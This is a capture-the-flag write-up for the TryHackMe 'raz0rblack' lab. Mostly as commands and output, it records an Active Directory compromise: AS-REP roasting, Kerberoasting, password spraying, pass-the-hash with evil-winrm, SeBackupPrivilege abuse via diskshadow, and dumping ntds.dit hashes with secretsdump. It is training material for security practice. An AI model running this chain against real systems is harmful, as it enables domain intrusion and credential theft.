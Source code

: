# raz0rblack

https://tryhackme.com/room/raz0rblack

A multi-stage room, a bit hard.

01. Enum showed standard windows ports, and a domain (raz0rblack.thm) 
02. i used to enumerate the domain: root@kali$crackmapexec smb 10.10.73.116
03. Enum NFS
    root@kali$ showmount -e 10.10.73.116
    Export list for 10.10.73.116:
    /users (everyone)
    root@kali$ mkdir users
    root@kali$ mount -t nfs -o vers=2 10.10.73.116:/users ./users
    root@kali$ cd users
    root@kali$ ls
    employee_status.xlsx  sbradley.txt
    Extracted usernames from the xlsx file and create file users.txt (format used like sbradley)
04. root@kali$ python3 /opt/impacket/examples/GetNPUsers.py 'raz0rblack.thm/' -usersfile users.txt -no-pass -dc-ip 10.10.209.59 -format hashcat -outputfile hashes.asreproast.txt
    cracked the hash with E:\PENTEST\hashcat>hashcat32.exe -m 18200 hashes.asreproast.txt rockyou.txt --force
05. Testing new creds on SMB
    root@kali$ smbmap -H 10.10.73.116 -u twilliams -p password
06. bruteforce usernames
   root@kali$ crackmapexec smb 10.10.73.116 -u 'twilliams' -p 'password' --rid-brute
07. Test if p password is reused
   root@kali$ crackmapexec smb 10.10.73.116 -u users.txt -p pass.txt
   SMB         10.10.73.116    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\xyan1d3:password STATUS_LOGON_FAILURE
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:password STATUS_LOGON_FAILURE
   SMB         10.10.73.116    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:password STATUS_PASSWORD_MUST_CHANGE
08  change the password of sbradley
   root@kali$ smbpasswd -r 10.10.16.174 -U sbradley
   Old SMB password: password
   New SMB password: Puckie123!
   Retype new SMB password: Puckie123!
   Password changed for user sbradley on 10.10.16.174
09. Enumerate SMB with new password
   root@kali$ smbmap -H 10.10.73.116 -u sbradley -p 'Puckie123!'
   [+] IP: 10.10.16.174:445        Name: 10.10.73.116
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        trash                                                   READ ONLY       Files Pending for deletion

   root@kali$ smbclient //10.10.73.116/trash --user='sbradley%Puckie123!'
   Try "help" to get a list of possible commands.
   smb: \> dir
  .                                   D        0  Tue Mar 16 02:01:28 2021
  ..                                  D        0  Tue Mar 16 02:01:28 2021
  chat_log_20210222143423.txt         A     1340  Thu Feb 25 14:29:05 2021
  experiment_gone_wrong.zip           A 18927164  Tue Mar 16 02:02:20 2021
  sbradley.txt                        A       37  Sat Feb 27 14:24:21 2021
  smb: \> mget *
10. Crack the zip
   root@kali$ zip2john experiment_gone_wrong.zip > hash
   root@kali$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
   root@kali$ unzip experiment_gone_wrong.zip
   Archive:  experiment_gone_wrong.zip
   [experiment_gone_wrong.zip] system.hive password: password
   inflating: system.hive
   inflating: ntds.dit
11. Find the hash of lvetrova and login
    root@kali$ evil-winrm -i 10.10.73.116 -u lvetrova -H hash
12. Kerberoasting with pass-the-hash with lvetrova creds
    root@kali$ python3 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.168.132 raz0rblack.thm/lvetrova -hashes hash:hash -outputfile hashes.kerberoast

   ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
   -------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
   HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 10:17:17.715160  <never>

   E:\PENTEST\hashcat>hashcat32.exe -m 13100 hashes.kerberoast.txt rockyou.txt --force
   finds cracked password: password
   root@kali$ evil-winrm -i 10.10.73.116 -u xyan1d3 -p password
13. PrivEsc
    *Evil-WinRM* PS C:\Users\xyan1d3> whoami /all

[...]

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Abuse Backup Privs (important: diskshadow.txt has a space after each line):

root@kali$ cat diskshadow.txt
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h: 

*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp 
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC,  7/16/2021 3:45:19 PM

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {29b531e8-3c00-49f9-925d-5e1e3937af13} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}

        * Shadow copy ID = {29b531e8-3c00-49f9-925d-5e1e3937af13}               %someAlias%
                - Shadow copy set: {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/16/2021 3:45:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: HAVEN-DC.raz0rblack.thm
                - Service machine: HAVEN-DC.raz0rblack.thm
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% h:
-> %someAlias% = {29b531e8-3c00-49f9-925d-5e1e3937af13}
The shadow copy was successfully exposed as h:\.
Get dll’s to abuse Backup Privs:

root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
Upload, import, abuse:

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
Dump the hashes:

root@kali$ python3 /opt/impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL

root@kali$ evil-winrm -i 10.10.73.116 -u administrator -H hash

*Evil-WinRM* PS C:\users\administrator\Documents> 


Tools used:

- impacket
- kerbrute: https://github.com/ropnop/kerbrute
- evil-winrm
- hacktricks for guides on privileges: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
- https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1
- https://github.com/giuliano108/SeBackupPrivilege
